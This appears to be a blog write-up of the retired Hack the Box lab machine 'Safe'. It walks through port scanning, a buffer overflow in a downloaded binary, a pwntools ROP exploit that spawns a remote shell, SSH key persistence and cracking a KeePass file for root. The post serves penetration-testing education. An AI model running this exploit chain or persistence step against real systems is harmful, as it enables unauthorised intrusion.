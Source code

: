 ```yaml
---
title: Safe -- Hackthebox Writeup 
published: true
ayout: post
date: 2021-08-2 18:54 +0600
image: "https://raw.githubusercontent.com/Spy0x7/Spy0x7.github.io/master/assets/2020-03-19-Hackthebox_Safe/0.png"
permalink: /Safe-Hackthebox-Writeup/
tags: Safe -- Hackthebox Writeup 
featured: false
---
```


# [](#header-1)Safe -- Hack the Box write-up

**Safe** is a _retired_ machine from Hack the Box. It is rated as a easy machine, however, the user own difficulty is rated medium-hard (probably for containing a ROP exploitable binary, uncommon in this platform.

![](https://raw.githubusercontent.com/Spy0x7/Spy0x7.github.io/master/assets/2020-03-19-Hackthebox_Safe/0.png)


## [](#header-2)Enumeration

First, let's start running a quick scan to discover which ports are open.
`nmap -T5 -n -Pn -oG fastscan -p- 10.10.10.147`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-19 16:00 EDT                                                                                                                                 
Warning: 10.10.10.147 giving up on port because retransmission cap hit (2).                                                                                                                                     
Nmap scan report for 10.10.10.147                                                                                                                                                                               
Host is up (0.049s latency).                                                                                                                                                                                    
Not shown: 65532 closed ports                                                                                                                                                                                   
PORT     STATE SERVICE                                                                                                                                                                                          
22/tcp   open  ssh                                                                                                                                                                                              
80/tcp   open  http                                                                                                                                                                                             
1337/tcp open  waste                                                                                                                                                                                            
                                                                                                                                                                                                                
Nmap done: 1 IP address (1 host up) scanned in 113.76 seconds   
```
Now, let's look more in depth what is the service associated with each port `nmap -T5 -n -p 22,80,1337 -sC -sV -oG indepthscan 10.10.10.147`:
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-19 17:17 EDT
Nmap scan report for 10.10.10.147
Host is up (0.052s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 6d:7c:81:3d:6a:3d:f9:5f:2e:1f:6a:97:e5:00:ba:de (RSA)
|   256 99:7e:1e:22:76:72:da:3c:c9:61:7d:74:d7:80:33:d2 (ECDSA)
|_  256 6a:6b:c3:8e:4b:28:f7:60:85:b1:62:ff:54:bc:d8:d6 (ED25519)
80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
1337/tcp open  waste?
| fingerprint-strings:
|   DNSStatusRequestTCP:
|     17:30:31 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|   DNSVersionBindReqTCP:
|     17:30:26 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|   GenericLines:
|     17:30:15 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back?
|   GetRequest:
|     17:30:21 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back? GET / HTTP/1.0
|   HTTPOptions:
|     17:30:21 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back? OPTIONS / HTTP/1.0
|   Help:
|     17:30:36 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back? HELP
|   NULL:
|     17:30:15 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|   RPCCheck:
|     17:30:21 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|   RTSPRequest:
|     17:30:21 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back? OPTIONS / RTSP/1.0
|   SSLSessionReq:
|     17:30:36 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back?
|   TLSSessionReq, TerminalServerCookie:
|     17:30:37 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|_    What do you want me to echo back?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1337-TCP:V=7.80%I=7%D=3/19%Time=5E73E16E%P=x86_64-pc-linux-gnu%r(NU
SF:LL,3E,"\x2017:30:15\x20up\x20\x203:13,\x20\x200\x20users,\x20\x20load\x
SF:20average:\x200\.00,\x200\.00,\x200\.00\n")%r(GenericLines,63,"\x2017:3
SF:0:15\x20up\x20\x203:13,\x20\x200\x20users,\x20\x20load\x20average:\x200
SF:\.00,\x200\.00,\x200\.00\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20ec
SF:ho\x20back\?\x20\r\n")%r(GetRequest,71,"\x2017:30:21\x20up\x20\x203:13,
SF:\x20\x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\.0
SF:0\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\?\x20GET\x20
SF:/\x20HTTP/1\.0\r\n")%r(HTTPOptions,75,"\x2017:30:21\x20up\x20\x203:13,\
SF:x20\x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\.00
SF:\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\?\x20OPTIONS\
SF:x20/\x20HTTP/1\.0\r\n")%r(RTSPRequest,75,"\x2017:30:21\x20up\x20\x203:1
SF:3,\x20\x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\
SF:.00\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\?\x20OPTIO
SF:NS\x20/\x20RTSP/1\.0\r\n")%r(RPCCheck,3E,"\x2017:30:21\x20up\x20\x203:1
SF:3,\x20\x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\
SF:.00\n")%r(DNSVersionBindReqTCP,3E,"\x2017:30:26\x20up\x20\x203:13,\x20\
SF:x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\.00\n")
SF:%r(DNSStatusRequestTCP,3E,"\x2017:30:31\x20up\x20\x203:13,\x20\x200\x20
SF:users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\.00\n")%r(Help,
SF:67,"\x2017:30:36\x20up\x20\x203:13,\x20\x200\x20users,\x20\x20load\x20a
SF:verage:\x200\.00,\x200\.00,\x200\.00\n\nWhat\x20do\x20you\x20want\x20me
SF:\x20to\x20echo\x20back\?\x20HELP\r\n")%r(SSLSessionReq,64,"\x2017:30:36
SF:\x20up\x20\x203:13,\x20\x200\x20users,\x20\x20load\x20average:\x200\.00
SF:,\x200\.00,\x200\.00\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x
SF:20back\?\x20\x16\x03\n")%r(TerminalServerCookie,63,"\x2017:30:37\x20up\
SF:x20\x203:13,\x20\x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\
SF:.00,\x200\.00\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\
SF:?\x20\x03\n")%r(TLSSessionReq,64,"\x2017:30:37\x20up\x20\x203:13,\x20\x
SF:200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\.00\n\nW
SF:hat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\?\x20\x16\x03\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.54 seconds
```

Hmmm... Looks like we have a l33t port open. We'll see what is running there later. 
By now, time to start my reconaissance part.

## [](#header-2)Recon

First, let's check if any of the running services can be exploited remotely.

![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/searchsploit.PNG)

Nothing interesting so far. Better to see what is running under port 80.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/port80.PNG)

Hurray, a boring **Apache** default page... Fuzzing does not give us any interesing information either.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/fuzz.PNG)

However, reviewing the page source code gives us finally some valuable info! It seems that an app called 'myapp' (duh) is running under port 1337. 
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/fuzz.PNG)

Also, we can download it by browsing into http://10.10.10.147/myapp. `curl -v -XGET http://10.10.10.147/myapp -o myapp` 
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/download_bin.PNG)

It smells like a challenge similar to the BOF from the OSCP :). We need to confirm it sending a large message to the program. 
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/overflow.PNG)

Yep, we go the buffer overflow. Let's run `checksec` to see if it has any security measures enabled.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/checksec.PNG)

Yikes, **NX enabled** (non-executable stack). We can not simply put our shellcode in the stack to jump and execute it. 

After opening the binary with **Ghidra** and looking into the decompiled code, we can ensure that there exists the buffer overflow as only **112 characters** are reserved for the string.

![](https://github.com/kikoas1995/kikoas1995.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/decompiledC.PNG)
Also, the function system is called, which can allow us to execute remote code via ROP. Obviously, the argument passed to this function is not a shell. It is actually the _uptime_ binary:
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/uptime_rdi.PNG)
![](uptime exec)

## [](#header-2)Exploitation

It is time to use some binary exploitation skills. 
We need a way to put `/bin/sh` onto the _rdi_ register and then call the local function `system()`. 
> Note: _rdi_ register always acts as the first argument for the function that will be called. In x86 binaries, arguments were passed pushing registers into the stack.  

Using `objdump` we find a `system()` call in address 0x401040.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/system_addr.PNG)

Now I will use `gef` to inspect the source code main and test functions.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/info_functions.PNG)
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/disas main tests.PNG)

Apparently, when the `test()` function ends, jumps to the memory address stored in the r13 register, so we need to put there the `system()` call we addressed before. In order to do this we need to look for a ROP gadget where we can store the system call. I will simplify this process using **ropper**:
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/ropper.PNG)

Looks like `0x0000000000401206` would work for us.

We are almost finishing! We need to overwrite the stack base pointer with our shell, which will be done with the _pattern create_ and _pattern offset_ utilities of `gef`: 

![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/pattern_create.PNG)
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/pattern_offset.PNG)
So the string `oaaaaaaa` will be in our case a `/bin/sh\x00`. Time to develope our own exploit with the help of **pwntools**.

```python
from pwn import *

p = remote('10.10.10.147', 1337) 
buffer = "A"*112 + "/bin/sh\x00"   # rbp = /bin/sh\x00
buffer += p64(0x401206)            # ROP gadget addr
buffer += p64(0x401040)            # r13 = system() call addr 
buffer += p64(0x000000)            # r14 = blank
buffer += p64(0x000000)            # r15 = blank
buffer += p64(0x401152)            # init() addr

print("Safe(10.10.10.147) HTB machine remote exploit") 
p.sendline(buffer)
p.interactive()
```
It worked!!! :D
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/remoteshell.PNG)

As the SSH service is enabled, I can add my public key to the authorized_keys file on the target:
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/ssh-keygen.PNG)
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/sshshell.PNG)

## [](#header-2)Privilege Escalation

Root is easier than user, you'll see. First, Copy every file from the user folder.

![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/scp.PNG)

Now let's crack the keepass database. We have a list of images which can be a hint that the database key could be one of them. However, in addition to the file, it is protected with a password, so I will use a small wordlist for each image  used to decrypt de database.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/crack_keepass.PNG)

It seems that the IMG_0547.JPG, along with the password 'bullshit', is our entrance to root :).
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/root_pwd.PNG)

Performing a su root with the password retrieved leads us to our beloved root shell. Reading the flags from here is trivial.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/flags.PNG)

